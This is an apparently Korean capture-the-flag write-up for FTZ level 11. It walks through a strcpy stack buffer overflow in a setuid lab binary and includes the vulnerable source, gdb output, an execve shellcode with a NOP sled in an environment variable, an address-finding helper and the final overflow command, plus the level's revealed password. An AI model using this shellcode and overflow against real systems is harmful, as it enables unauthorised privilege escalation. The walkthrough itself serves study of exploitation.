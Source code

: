 # FTZ level11

ls 명령어를 사용해서 무엇이 있는지 확인해 보자.

__attackme , hint , public_html , tmp__ 

일단은 cat hint 명령어를 사용하여 힌트를 확인해 보자.  

```
#include <stdio.h>
#include <stdlib.h>
 
int main( int argc, char *argv[] )
{
	char str[256];

 	setreuid( 3092, 3092 );
	strcpy( str, argv[1] );
	printf( str );
} 
```

코드가 나오는데 str에 [256]버퍼를 담고 __setreuid( 3092, 3092 );__ setuid 설정 strcpy로 인자를 복사해 str에 넣어 출력하는 코드이다.  

이것은 버퍼오버플로우 문제이다. __strcpy__ 함수에는 큰 취약점이 하나 존재하는데 이 함수는 NULL문자를 만나기 전까지의 문자열을 복사한다. 하지만 복사하는 문자열의 길이를 검사하지 않는다. 그것을 이용하여 BOF를 하는 문제이다.

그럼 return address 까지의 버퍼를 찾아야 하기 때문에 gdb를 이용할 것이다.

___

gdb를 확인해보면 중간 코드에 

```
0x08048499 <main+41>:	lea    eax,[ebp-264]
0x0804849f <main+47>:	push   eax
0x080484a0 <main+48>:	call   0x804835c <strcpy>
```

이러 코드가 보일 것이다. 잘 생각해보면 버퍼가 코드에 비해 8더 많다는 것을 확인 할 수 있을 것이다. 8은 메모리 보호 기법에 의한 더미이다.

__메모리 보호 기법에 잠깐 설명하면 운영 체제에서 실행하고 있는 프로세스가 자신에게 할당되지 않은 영역의 메모리에 접근하는 것이 메모리 보호의 주된 목적이다.__

__이를 통해 프로세스 내의 버그가 다른 프로세스의 동작에 영향을 미치는 것을 예방하며 악성 소프트웨어가 시스템에서 허가되지 않은 접근 권한을 갖고 시스템에 영향을 끼치는 것을 막아준다.__

그럼 return address는 어디에 있을까?

| str [264]      | 할당된 버퍼이다. |
| -------------- | ---------------- |
| ebp            | base pointer     |
| return address | 여기가 그곳이다. |

조잡하지만 위를 잠깐 보자. 각 한 칸을 4바이트씩 차지 한다. 그럼 주소는 268이후에 있지 않을까?



___

이제 한번 시작해 보자.

NOP를 이용하여 풀것이기 때문에 환경변수를 이용할 것이다.

__NOP(0x90)은 어셈블리 언어로 아무것도 하지 않는 명령어이다. 그래서 NOP으로 쉘 코드의 앞뒤를 감싸게 되면 buf의 정확한 주소가 아닌 근사값의 주소여도 결국 쉘 코드가 실행될 수 있게된다.__

```
export EGG=`python -c 'print "\x90" * 1000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

환경변수에 쉘코드를 집어 넣고 넉넉하게 NOP를 1000번 입력할것이다. 

return address에는 쉘 코드가 아닌 주소가 들어가야 해야하다. 그러니 아주 짧은 코드를 짤 것이다.

cd tmp 명령어로 들어가자 tmp에서 코드를 짜보자

```
#include <stdio.h>

int main() {
        printf("%p\n", getenv("EGG"));
}
```

이런 씩의 코드이다. __getenv__ 함수는 환경 변수의 값을 가져오는 함수이다.

gcc를 이용하여 컴파일 후 실행을 해보면 주소값이 나온다.

나의 주소값은 __0xbffff4b4__이런게 나왔다. 메모리에 저장 되는 주소가 무작위이다 보니까 다 똑같이 나올 수 없다. 이제 대입만 하면 끝이 난다.

___

자 이제 원래 home으로 돌아와서 attackme 인자에 대입을 해보자.

```
./attackme `python -c 'print "A" * 268 + "\xb4\xf4\xff\xbf"'`
```

__"A" * 268__ 이부분은 버퍼와 ebp를 덮기 위해 아무 문자열이나 넣어준것이고 그 이후 return address에 쉘코드 주소값을 리틀 엔디안으로 넣어주면 쉘이 실행이된다. 만약 잘 모르겠다면 쉘 실행이후 __whoami__ 명령을 입력하면     level12라고 나온다. 

이제 my-pass 명령을 입력하면 __Level12 Password is "it is like this".__ 라면서 패스워가 나타난다.

